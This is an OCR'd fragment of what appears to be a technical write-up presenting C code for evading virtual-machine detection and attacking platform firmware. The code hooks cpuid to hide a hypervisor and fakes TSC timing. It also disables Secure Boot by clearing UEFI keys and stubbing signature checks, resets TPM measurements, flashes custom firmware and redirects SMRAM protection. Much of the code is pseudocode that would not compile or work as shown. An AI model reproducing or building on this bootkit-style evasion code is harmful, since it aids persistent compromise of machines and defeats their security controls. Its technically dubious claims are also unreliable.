```c
    OriginalCpuid = __cpuid;
    __cpuid = [](int* eax, int* ebx, int* ecx, int* edx) {
        OriginalCpuid(eax, ebx, ecx, edx);
        if(*eax == 0x40000000) {
            *ebx = 0; // Clear hypervisor vendor
            *ecx = 0;
            *edx = 0;
        }
    };

    // Normalize TSC timing
    uint64_t tscFreq = CalculateRealTsc();
    __writemsr(MSR_TSC_FREQ, tscFreq);
    InstallTscHook();
}
```

---

### **3. Firmware & Secure Boot Bypass**
**Implementation**:
```c
// UEFI Secure Boot disable
void DisableSecureBoot() {
    // 1. Clear UEFI variables
    ClearNvVariable(L"PK");
    ClearNvVariable(L"KEK");
    ClearNvVariable(L"db");
    
    // 2. Patch signature validation
    EFI_SECURITY_PROTOCOL* secProto;
    LocateProtocol(&secProto);
    secProto->FileAuthentication = [](...){ return EFI_SUCCESS; };
    
    // 3. Bypass TPM measurements
    Tpm2SubmitCommand(TPM2_CC_StartupClear);
    Tpm2SubmitCommand(TPM2_CC_PCR_Reset);
    
    // 4. Flash custom firmware
    SpiUnlock();
    FlashCustomFirmware();
    SpiLock();
}

// SMRAM protection bypass
void BypassSmrr() {
    // 1. Create SMRAM shadow copy
    void* shadowSmram = AllocateContiguous(SMRAM_SIZE);
    memcpy(shadowSmram, SMRAM_BASE, SMRAM_SIZE);
    
    // 2. Redirect SMRR to shadow copy
    __writemsr(MSR_SMRR_PHYSBASE, (uint64_t)shadowSmram);
    __writemsr(MSR_SMRR_PHYSMASK, (~(SMRAM_SIZE-1)) | 1);
    
    // 3. Validate relocation
    if(ValidateSmrrRedirect() != STATUS_SUCCESS) {
        TriggerHardwareFault();
    }
}
```

---